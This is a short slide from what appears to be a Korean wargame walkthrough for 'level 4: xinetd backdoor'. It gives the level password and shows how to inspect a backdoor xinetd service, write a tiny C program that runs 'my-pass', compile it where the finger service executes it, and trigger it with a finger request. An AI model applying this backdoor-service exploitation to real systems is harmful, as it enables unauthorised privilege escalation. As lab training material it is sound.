

# level 4 : xinetd 백도어
level4 / suck my brain

$ ls
$ cat hint
$ ls –al /etc/xinetd.d
$ cat /etc/xinetd.d/backdoor
$ cat /etc/services | grep finger
$ netstat –na
$ ls -al /home/level4/tmp/backdoor
tmp로 이동
$ vi backdoor.c
	#include <stdlib.h>
	int main()
	{
		system(“my-pass”);
	}
$ gcc –o backdoor backdoor.c
$ finger level4@localhost